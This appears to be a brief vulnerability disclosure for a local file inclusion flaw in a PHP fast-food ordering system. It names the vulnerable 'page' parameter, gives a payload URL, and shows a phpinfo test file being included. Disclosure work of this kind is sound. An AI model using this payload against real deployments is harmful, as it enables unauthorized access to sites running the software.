 # Fast Food Ordering System v1.0 by oretnom23 has The local file contains

vendor: https://www.sourcecodester.com/php/15366/fast-food-ordering-system-phpoop-free-source-code.html

Vulnerability File: ip/ffos/admin/?page=shell

Vulnerability location: ip/ffos/admin/?page=, page

Payload: ip/ffos/admin/?page=shell

![image](https://user-images.githubusercontent.com/54017627/171354941-08f7214f-3d80-4548-88ff-df598b23357e.png)

We create a shell.php under the PHP file of the root of the website, which reads "<? phpinfo ();? > "

![image](https://user-images.githubusercontent.com/54017627/170479151-b4aabc1a-fdbd-45d2-8f5a-248d37092584.png)

And visit http://ip/ffos/admin/?page=shell You can see that phpinfo has been successfully included

![image](https://user-images.githubusercontent.com/54017627/171355001-8752e49f-ba01-4e52-a0cb-90e4cbaa655a.png)
